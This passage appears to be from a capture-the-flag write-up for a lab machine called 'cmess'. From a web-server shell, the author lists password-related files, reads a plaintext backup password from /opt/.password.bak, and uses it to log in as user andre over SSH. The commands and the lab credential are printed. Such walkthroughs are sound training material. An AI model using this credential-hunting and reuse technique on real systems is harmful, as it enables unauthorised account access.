 ```bash
/usr/share/help-langpack/en_CA/ubuntu-help/user-forgottenpassword.page
/usr/share/help-langpack/en_CA/ubuntu-help/user-goodpassword.page
/usr/share/help-langpack/en_CA/ubuntu-help/user-changepassword.page
/usr/share/icons/Adwaita/scalable/status/dialog-password-symbolic.svg
/usr/share/icons/Humanity/status/24/dialog-password.png
/usr/share/icons/Humanity/status/16/dialog-password.png
/usr/share/icons/Humanity/status/48/dialog-password.svg
/usr/share/icons/Humanity/apps/24/password.png
/usr/share/icons/Humanity/apps/48/password.svg
/usr/lib/grub/i386-pc/password_pbkdf2.mod
/usr/lib/grub/i386-pc/legacy_password_test.mod
/usr/lib/grub/i386-pc/password.mod
/usr/lib/mysql/plugin/validate_password.so
/etc/pam.d/common-password
/bin/systemd-ask-password
/bin/systemd-tty-ask-password-agent
/opt/.password.bak
/run/systemd/ask-password
/var/cache/debconf/passwords.dat
/var/www/html/src/core/views/login-change-password.php
/var/lib/pam/password
/lib/systemd/systemd-reply-password
/lib/systemd/system/systemd-ask-password-plymouth.service
/lib/systemd/system/systemd-ask-password-wall.service
/lib/systemd/system/systemd-ask-password-plymouth.path
/lib/systemd/system/systemd-ask-password-console.service
/lib/systemd/system/sysinit.target.wants/systemd-ask-password-console.path
/lib/systemd/system/systemd-ask-password-console.path
/lib/systemd/system/multi-user.target.wants/systemd-ask-password-wall.path
/lib/systemd/system/systemd-ask-password-wall.path
/boot/grub/i386-pc/password_pbkdf2.mod
/boot/grub/i386-pc/legacy_password_test.mod
/boot/grub/i386-pc/password.mod
www-data@cmess:/home$ 
```
after enum this file i find in `/opt/.password.bak` a password for andre user :
```bash
www-data@cmess:/home$ cat /opt/.password.bak
cat /opt/.password.bak
andres backup password
UQfsdCB7aAP6
```

Trying to login with ssh to user andre : 
```bash
T4T4R1S  | Local IP ➜ 192.168.115.128 | VPN IP ➜ 10.14.109.66
~  ssh andre@10.10.70.174
andre@10.10.70.174's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-142-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Last login: Thu Feb 13 15:02:43 2020 from 10.0.0.20
andre@cmess:~$ 
```
SUCCESS....! 
